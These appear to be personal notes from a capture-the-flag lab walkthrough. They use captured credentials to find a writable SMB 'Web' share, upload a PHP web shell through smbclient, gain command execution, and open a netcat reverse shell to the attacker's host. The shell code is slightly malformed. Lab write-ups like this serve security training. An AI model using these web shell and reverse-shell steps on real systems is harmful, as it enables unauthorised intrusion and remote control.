 ![[Pasted image 20250114205556.png]]

Using #crackmapexec with these creds to list smb shares again. 

`cme smb 10.10.11.187 -u c.bum -p 'Tikkycoll_431012284' --shares

![[Pasted image 20250114205701.png]]
We have read,write over "Web" share.

![[Pasted image 20250114205846.png]]
Since the web server is running php, we can drop a php reverse shell on the web. 

Using #smbclient 

`smbclient -U c.bum //10.10.11.187/Web`

Create `shell.php`

and add 

`<?php
`system ($_REQUEST['cmd']) ;$`
`php?>`

From smbclient: 

`put shell.php`

Navigate to `/shell.php` from web site

![[Pasted image 20250115201442.png]]

Add `/shell.php?cmd=whoami`

![[Pasted image 20250115201914.png]]
Got RCE. 

Download netcat64 for windows 

https://eternallybored.org/misc/netcat/netcat-win32-1.12.zip

Unzip this locally. Put nc64.exe on remote host.

![[Pasted image 20250115202244.png]]
Start netcat listener on local host

`nc -lvnp 9001`

![[Pasted image 20250115202351.png]]
In the URL, we will execute 

`nc64.exe -e powershell.exe 10.10.14.8 9001`

![[Pasted image 20250115202501.png]]
![[Pasted image 20250115202621.png]]
We got a reverse shell:
